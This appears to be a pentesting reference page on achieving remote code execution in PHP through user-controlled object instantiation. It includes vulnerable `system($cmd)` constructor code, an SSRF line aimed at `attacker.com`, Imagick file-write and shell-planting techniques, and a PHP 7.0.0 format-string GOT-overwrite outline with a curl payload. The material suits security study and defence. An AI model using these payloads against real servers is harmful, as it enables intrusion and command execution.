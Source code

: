 # PHP - RCE abusing object creation: new $_GET[[$_GET["b"]|"a"]]


This is basically a summary of [[https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/|https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/]]

## Introduction

The creation of new arbitrary objects, such as `new $_GET["a"]($_GET["a"])`, can lead to Remote Code Execution (RCE), as detailed in a [[https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/|**writeup**]]. This document highlights various strategies for achieving RCE.

## RCE via Custom Classes or Autoloading

The syntax `new $a($b)` is used to instantiate an object where **`$a`** represents the class name and **`$b`** is the first argument passed to the constructor. These variables can be sourced from user inputs like GET/POST, where they may be strings or arrays, or from JSON, where they might present as other types.

Consider the code snippet below:

```php
class App {
    function __construct ($cmd) {
        system($cmd);
    }
}

class App2 {
    function App2 ($cmd) {
        system($cmd);
    }
}

$a = $_GET['a'];
$b = $_GET['b'];

new $a($b);
```
```
In this instance, setting `$a` to `App` or `App2` and `$b` to a system command (e.g., `uname -a`) results in the execution of that command.

**Autoloading functions** can be exploited if no such classes are directly accessible. These functions automatically load classes from files when needed and are defined using `spl_autoload_register` or `__autoload`:

```php
spl_autoload_register(function ($class_name) {
    include './../classes/' . $class_name . '.php';
});

function __autoload($class_name) {
    include $class_name . '.php';
};

spl_autoload_register();
```
```
The behavior of autoloading varies with PHP versions, offering different RCE possibilities.

## RCE via Built-In Classes

Lacking custom classes or autoloaders, **built-in PHP classes** may suffice for RCE. The number of these classes ranges between 100 to 200, based on PHP version and extensions. They can be listed using `get_declared_classes()`.

Constructors of interest can be identified through the reflection API, as shown in the following example and the link [[https://3v4l.org/2JEGF|https://3v4l.org/2JEGF]].

**RCE via specific methods includes:**

### **SSRF + Phar Deserialization**

The `SplFileObject` class enables SSRF through its constructor, allowing connections to any URL:

```php
new SplFileObject('http://attacker.com/');
```
```
SSRF can lead to deserialization attacks in versions of PHP before 8.0 using the Phar protocol.

### **Exploiting PDOs**

The PDO class constructor allows connections to databases via DSN strings, potentially enabling file creation or other interactions:

```php
new PDO("sqlite:/tmp/test.txt")
```
```
### **SoapClient/SimpleXMLElement XXE**

Versions of PHP up to 5.3.22 and 5.4.12 were susceptible to XXE attacks through the `SoapClient` and `SimpleXMLElement` constructors, contingent on the version of libxml2.

## RCE via Imagick Extension

In the analysis of a **project's dependencies**, it was discovered that **Imagick** could be leveraged for **command execution** by instantiating new objects. This presents an opportunity for exploiting vulnerabilities.

### VID parser

The VID parser capability of writing content to any specified path in the filesystem was identified. This could lead to the placement of a PHP shell in a web-accessible directory, achieving Remote Code Execution (RCE).

#### VID Parser + File Upload

It's noted that PHP temporarily stores uploaded files in `/tmp/phpXXXXXX`. The VID parser in Imagick, utilizing the **msl** protocol, can handle wildcards in file paths, facilitating the transfer of the temporary file to a chosen location. This method offers an additional approach to achieve arbitrary file writing within the filesystem.

### PHP Crash + Brute Force

A method described in the [[https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/|**original writeup**]] involves uploading files that trigger a server crash before deletion. By brute-forcing the name of the temporary file, it becomes possible for Imagick to execute arbitrary PHP code. However, this technique was found to be effective only in an outdated version of ImageMagick.

## Format-string in class-name resolution (PHP 7.0.0 Bug #71105)

When user input controls the class name (e.g., `new $_GET['model']()`), PHP 7.0.0 introduced a transient bug during the `Throwable` refactor where the engine mistakenly treated the class name as a printf format string during resolution. This enables classic printf-style primitives inside PHP: leaks with `%p`, write-count control with width specifiers, and arbitrary writes with `%n` against in-process pointers (for example, GOT entries on ELF builds).

Minimal repro vulnerable pattern:

```php
<?php
$model = $_GET['model'];
$object = new $model();
```
```
Exploitation outline (from the reference):
- Leak addresses via `%p` in the class name to find a writable target:
  ```bash
  curl "http://host/index.php?model=%p-%p-%p"
  # Fatal error includes resolved string with leaked pointers
  ```
- Use positional parameters and width specifiers to set an exact byte-count, then `%n` to write that value to an address reachable on the stack, aiming at a GOT slot (e.g., `free`) to partially overwrite it to `system`.
- Trigger the hijacked function by passing a class name containing a shell pipe to reach `system("id")`.

Notes:
- Works only on PHP 7.0.0 (Bug [[https://bugs.php.net/bug.php?id=71105)|#71105]]; fixed in subsequent releases. Severity: critical if arbitrary class instantiation exists.
- Typical payloads chain many `%p` to walk the stack, then `%.<width>d%<pos>$n` to land the partial overwrite.

## References

- [[https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/|https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/]]
- [[https://blog.orange.tw/posts/2025-08-the-art-of-php-ch/|The Art of PHP: CTF‑born exploits and techniques]]

